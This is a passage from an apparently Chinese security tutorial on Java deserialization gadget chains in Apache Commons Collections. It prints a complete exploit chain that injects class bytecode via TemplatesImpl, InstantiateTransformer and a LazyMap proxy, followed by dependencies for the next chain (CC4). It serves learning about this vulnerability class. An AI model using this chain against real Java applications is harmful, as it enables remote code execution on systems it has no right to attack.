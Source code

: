 最后exp

```java
TemplatesImpl templates = new TemplatesImpl();
        Class tc =  templates.getClass();
        Field bytecodesField = tc.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("E:\\Java_project\\Serialization_Learing\\target\\classes\\Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "test");

        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                instantiateTransformer
                };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,chainedTransformer);
        Class c =  Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cls  =  c.getDeclaredConstructor(Class.class,Map.class);
        cls.setAccessible(true);
        InvocationHandler h = (InvocationHandler) cls.newInstance(Override.class,lazyMap);
        Map maproxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);
        Object o = cls.newInstance(Override.class,maproxy);
```

其实就是利用了`InstantiateTransformer`​可以执行构造方法拼接了一下后续的动态类加载这样的思路

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-d31d371d706e7cab894534b6c563f43fd98a0765.png)​

‍

‍

‍

CC4
===

从CC4开始就要换依赖了

```xml
    <dependencies>
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-collections4</artifactId>
            <version>4.0</version>
        </dependency>
    </dependencies>
```
